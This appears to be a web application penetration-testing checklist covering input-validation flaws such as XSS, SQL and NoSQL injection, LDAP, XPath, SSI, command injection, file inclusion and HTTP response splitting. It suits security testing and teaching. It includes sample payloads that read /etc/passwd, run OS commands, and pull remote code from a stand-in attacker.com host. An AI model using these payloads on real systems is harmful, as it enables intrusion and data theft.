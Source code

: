 - [ ] testing for reflected XSS - inject into forms
- [ ] testing for stored XSS - inject into forms
- [ ] testing for DOM xss - inspect source and sinks
- [ ] testing for HTTP verb tampering - craft custom HTTP requests to test the other methods to bypass URL authentication and authorization
- [ ] testing for HTTP parameter pollution - identify any form or action that allows user-supplied input to bypass input validation and filters using HPP
- [ ] testing for SQL injection - union, boolean, error based, out of band, time delay
- [ ] testing Oracle - identify URLs for PL/SQL web applications, access with PL/SQL packages, bypass PL/SQL exclusion list, SQL injection
- [ ] testing MySQL - identify mySQL version, single quote, information_schema, read/write file
- [ ] SQL server testing - comment operator (--), query seperator (;), stored procedures (xp_cmdshell)
- [ ] testing postgreSQL - determine that the backedn database engine is postgres by using the :: cast operator, read/write files, shell injection
- [ ] MS access testing - enumerate the column through error-based (group by), obtain database schema combine with fuzzdb
- [ ] testing for NoSQL injection - identify NoSQL databases, pass special characters ('"\\;{})), attack with reserved variable name, operator.
- [ ] testing for LDAP injection - /ldapsearch?user=*user=*user=*)(uid=*))(|(uid=*pass=password
- [ ] test for ORM injection - Testing ORM injection is identical to SQL injection testing
- [ ] test for XML injection -Check with XML Meta Characters ', " , <>, <!--/-->, &, <![CDATA[ / ]]>, XXE, TAG
- [ ] test for SSI injection - Presense of .shtml extension, Check for these characters, < ! # = / . " - > and \[a-zA-Z0-9], include String = \<!--#include virtual="/etc/passwd" -->
- [ ] test for XPath injection - check for XML error enumeration by supplying a single quote ('), username: ' or '1' ='1, password: ' or '1' ='1
- [ ] IMAP/SMTP injection - identifying vulnerable parameters with special characters - (.: \\, ‘, “, @, #, !, , Understanding the data flow and deployment structure of the client, IMAP/SMTP command injection (Header, Body, Footer)
- [ ] test for code injection - Enter OS commands in the input field - ?arg=1; system('id')
- [ ] test for local file inclusion - LFI with dot-dot-slash (../), PHP wrapper (php://filter/convert.base64-encode/resource)
- [ ] test for remote file inclusion - RFI from malicious URL ?page.php?file=http://attacker.com/malicious_page
- [ ] test for command injection - understand the app platform, OS, folder structure, relative path and execute OS commands on a web server %3Bcat%20/etc/passwd, test.pdf+\\+Dir C:\\
- [ ] test for buffer overflow - test for heap overflow vuln, stack overflow, or format string vulnerabilities
- [ ] test for incubated vulns - file upload, stored XSS, SQL/XPATH injection, misconfigured servers
- [ ] test for HTTP splitting/smuggling - param=foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>